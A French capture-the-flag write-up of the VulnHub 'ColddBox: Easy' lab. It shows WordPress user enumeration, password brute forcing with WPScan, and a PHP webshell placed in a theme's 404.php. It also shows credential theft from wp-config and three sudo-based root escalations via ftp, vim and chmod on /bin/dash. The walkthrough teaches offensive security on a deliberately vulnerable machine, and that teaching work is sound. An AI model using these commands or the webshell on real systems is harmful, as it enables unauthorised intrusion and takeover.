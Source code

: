 # Solution du CTF ColddBox: Easy de VulnHub

[ColddBox: Easy](https://vulnhub.com/entry/colddbox-easy,586/) est comme son nom l'indique un CTF très facile. Il peut toutefois permettre aux débutants de s'initier à différents outils.

Le scan `Nmap` retourne un SSH et un serveur Apache :

```
Nmap scan report for 192.168.56.109
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
```

Sur le site se trouve un vieux Wordpress. J'ai directement dégainé `WPscan` :

```bash
docker run -it --rm wpscanteam/wpscan --url http://192.168.56.109/  -e ap,at,u
```

Le scanner ne trouve aucun plugin mais il y a différents utilisateurs enregistrés :

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

On va bruteforcer les comptes avec l'aide de la wordlist `rockyou`. Je monte mon dossier `/tmp` à l'emplacement `/data` de la VM pour que `WPscan` voit les fichiers :

```bash
docker run -v /tmp/:/data/ -it --rm wpscanteam/wpscan --url http://192.168.56.109/ -U /data/users.txt -P /data/rockyou.txt
```

Ca ne met pas beaucoup de temps avant qu'un compte soit cassé :

```
[SUCCESS] - c0ldd / 9876543210
```

Heureusement le compte est administrateur, on peut donc arrêter le bruteforce ici et se connecter.

La méthode classique est alors d'utiliser l'éditeur de thèmes pour ajouter du code dans un des fichiers PHP du site. J'ai une préférence pour le fichier `404.php` du template. J'y place le code suivant :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
die(); 
```

Evidemment on évitera de mettre un `die()` dans un scénario plus réaliste.

Je peux alors exécuter des commandes via par exemple `/wp-content/themes/twentyfifteen/404.php?cmd=id`

Mais je ne garde le webshell que le temps de passer à reverse-ssh. Après ça je peux fouiller plus à mon aise. Première étape : voir les identifiants pour le MySQL dans le config du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Pas besoin d'aller plus loin, le mot de passe mentionner permet de passer `c0ldd` via la commande `su`.

```shellsession
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Il ne faut pas longtemps avant de trouver l'étape suivante :

```shellsession
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Tous ces exécutables permettent d'obtenir un shell s'ils sont lancés avec les droits root.

Exemple avec `ftp` :

```shellsession
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/ftp
ftp> !id
uid=0(root) gid=0(root) grupos=0(root)
ftp> !bash
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Pour `Vim` on peut bien sûr éditer des fichiers (`/etc/passwd`, `/etc/crontab`, `/etc/sudoers,` etc) pour ajouter un utilisateur privilégié, s'accorder d'autres permissions, etc mais le plus simple est d'invoquer directement un shell depuis l'éditeur :

`:!/bin/sh`

Et pour `chmod` on peut simplement mettre le bit setuid sur `/bin/dash` :

```shellsession
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod 4755 /bin/dash
c0ldd@ColddBox-Easy:~$ dash -p
# id
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

*Publié le 18 février 2023*
